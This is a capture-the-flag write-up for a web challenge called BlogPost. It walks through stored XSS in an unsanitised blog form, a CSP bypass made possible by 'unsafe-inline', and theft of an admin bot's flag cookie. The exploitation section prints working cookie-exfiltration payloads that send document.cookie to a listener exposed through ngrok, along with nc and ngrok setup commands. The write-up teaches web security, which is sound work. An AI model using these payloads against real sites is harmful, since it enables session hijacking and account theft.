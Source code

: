 # Web BlogPost

![Blog Post Challenge](img/Challenge.PNG)

## Summary

Blogpost is a easy web challenge that one of the challenges that took most of my time in the CTF. Finding the foothold was an interesting process but this challenge has reminded me not to create a tunnel vision when it comes to hacking and ensuring that I check all files to have a good understanding what the challenge is. (I did not realize about the bot.js and basically had troubles stealing the cookie itself)

## Table of Contents
1. [Setting up environment](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
2. [Enumeration](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
3. [Foothold](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
4. [Exploitation](https://github.com/notsuspiciousindividual/Stack_The_Flag_CTF_22/tree/main/web_blogpost_1#setting-up-the-environment)
	1.[CSP]
	2.[Using NGROK]

## Setting up the environment

![When unzipped, there should be the docker environments to run](img/settingupchallenge.PNG)

The challenge developers were kind enough to create the environment for individuals to run on their local machine. To create the environment itself, you should have docker installed in your machine. Just a little google can help you (depending on your machine) but here was how I installed it; [Link](https://www.kali.org/docs/containers/installing-docker-on-kali/)

## Enumeration

Playing around with the website and looking at the sourcecode, we have a rough understand of what the website has and the general flow for normal users; 

```
Goes to Homepage
Login
	If no user in website
		make user
	Go to Blog, server takes content from blog
	make own post etc
```

Going through the sourcecodes itself, we also understand that there'll be a bot that actively crawls through the blogpost with the required cookie we have to steal in bot.js

```javascript
export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "REDACTED",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
````

## Getting the foothold

![Form has no sanitisation](img/formsjsnosanitisation.PNG)


Looking through the sourcecode, there is no form of sanitization when it comes to posting. With that in mind, let's try it with a simple XSS. If it works, there'll be our foothole for this challenge.

```javascript
<script>console.log("test")</script>
```

![XSS FootHold](img/XSSFootHold.PNG)

![XSS Success](img/XSSSuccess.PNG)

And it does work! Now with our foothold, what can we do with it?

## Exploitation
During our enumeration, we understand that'll be a bot the crawls through the blog site itself. Hence our objective is to use XSS to steal the "cookie" of the admin which will hold our flag. I made a simple XSS payload that'll force the website to send their user cookie to my server as shown below;

- Payload [^1]
```javascript
<script>
document.write('<img src="http://127.0.0.1:8000/?'+document.cookie+'"/>');
</script> 
//Note that the ip address should be your ip address that you want to take the cookies
```


- On Our machine (to receive the cookies)
```bash
python -m SimpleHTTPServer
```

However, we encountered the next obstacle in the challenge. The challenge is equipped with content security policy (CSP) with doesn't allow us to steal the cookie as shown below.

![CSP Shenanigans](img/CSPBlockage.PNG)

### What is CSP? ~~and why is it a pain~~

> Content Security Policy ([CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution. [^2]

It is a good mitigation practise but with every mitigation, there'll be ways where developers configure such mitigations wrongly. We can verify their policy (found in /src/app/index.js) using [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  

![CSP Bad Configuration](img/CSPMisconfiguration.PNG)

Hence with the mindset of "hey they probably misconfigured something", we can see that they allowed 'unsafe-inline' which can be our proper foothold for this obstacle. Implementing it in CSP is effectively disabling the important part of CSP. You are allowing javascript to run in the XSS. [^3] Hence with that in mind, let us find a payload to bypass it.

```javascript
"/><script>console.log("bypass works");</script>
```[^4]


![CSP Bypass Works](img/bypasstestWorks.PNG)

It does work, now lets steal the bot's cookie

### Using NGROK
One of the problems which I faced was getting the cookie itself. For some reason, I was only receiving my cookie rather than the bot's cookie. After thinkering around and accidentally solving Blogpost 2 (woops), I learn about [ngrok](https://ngrok.com/). The idea is being able to push localhost apps to the internet with a hostname easily. In this case, I'll be using it to receive the cookie instantly. Thanks John Hammond for the idea as well. [^5]

Setting up ngrok, which will give us our forward hostname
```
ngrok http 9000
```

![Ngork Hostname Output](img/ngrokStuff.PNG)

Setting up listening on localhost
```
nc -nlvp 9000
```
Payload for our shenanigans
```
"/><script>document.location='https://16ba-118-189-213-163.ap.ngrok.io/?c='+document.cookie;</script>
```

This will give us the cookie which is the aim of the challenge! 

![Flag Here!](img/XSSCSPBypassFlag.PNG)



[^1]:[Simple XSS Cookie Stealer](https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/)
[^2]:[What is CSP?](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
[^3]:[unsafe-inline is dumb](https://csper.io/blog/no-more-unsafe-inline)
[^4]:[unsafe-inline bypass](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-inline)
[^5]:[John's Video on CSP](https://www.youtube.com/watch?v=uU_tvQPCBUo)